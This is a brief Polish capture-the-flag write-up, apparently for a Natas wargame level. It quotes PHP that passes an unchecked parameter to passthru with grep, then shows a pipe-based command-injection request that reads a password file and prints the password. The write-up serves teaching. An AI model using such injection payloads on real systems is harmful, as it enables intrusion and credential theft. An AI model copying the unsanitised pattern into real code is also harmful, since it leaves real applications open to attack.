

Ten poziom zawiera input filed do wyszukiwania słów oraz ponownie przekierowanie do kodu źródłowego.



```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

Wpisanie słowa w pole zwraca za pomocą narzędzia grep pasujący ciąg znaków z pliku dictionary.txt

Funkcja passthru pozwala na wykonanie polecenia przez zewnętrzny program w systemie. Wartość $key nie jest w żaden sposób sprawdzana, co oznacza, że można za nią podstawić inne polecenie.

Podając pod argument "needle" znap pipe "|" można wykonać kolejne polecenie.

```
GET /?needle=|cat%20../../../../etc/natas_webpass/natas10&submit=Search HTTP/1.1
```

Wynik:
```
Output:
<pre>
t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu
```
